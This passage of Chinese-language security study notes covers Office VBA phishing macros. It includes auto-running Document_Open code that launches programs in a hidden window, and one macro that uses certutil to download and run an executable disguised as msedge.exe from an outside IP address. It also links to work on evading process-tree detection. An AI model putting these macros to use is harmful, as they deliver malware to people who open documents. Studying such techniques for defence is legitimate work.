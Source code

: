  使用Shell对象的 `ShellExecute`  方法来启动一个新进程

  - `"calc"`：要执行的程序名称。
  - `Null`：表示不传递参数给启动的程序。
  - `"C:\\Windows\\System32"`：指定计算器程序所在的目录。
  - `Null`：表示默认使用当前窗口显示模式。
  - `0`：指定程序的启动方式，这里为隐藏模式（0 表示隐藏窗口）。

![image-20240712160406287](http://cdn.ayusummer233.top/DailyNotes/202407121604470.png)

---

调用 CMD 执行 `calc.exe`

```vb
Private Sub Document_Open()
  Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")
  obj.Document.Application.ShellExecute "cmd.exe", "/c calc.exe", "C:\Windows\System32", Null, 0
End Sub
```

![image-20240712160940200](http://cdn.ayusummer233.top/DailyNotes/202407121609386.png)

---

调用 cmd 使用 Certutil 下载恶意程序然后执行

```vb
Private Sub Document_Open()
  Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")
  obj.Document.Application.ShellExecute "cmd.exe", "/c certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe a.exe && a.exe && del a.exe && certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe delete", "C:\Windows\System32", Null, 0
End Sub
```

![image-20240712161607021](http://cdn.ayusummer233.top/DailyNotes/202407121616272.png)


---

#### stash

> [Office钓鱼攻击绕过进程树检测 - 简书 (jianshu.com)](https://www.jianshu.com/p/8b01fca2c177)

TODO:

- [ ] 如下是材料收集中标记为未复现成功的绕过方案, 有空研究下

- 通过Scheduled Task使用svchost.exe绕过
- 通过Windows API注入Excel内存绕过

---

# TODO

- [ ] [逆向分析Office VBS宏类型文档](https://www.secpulse.com/archives/205567.html)

---



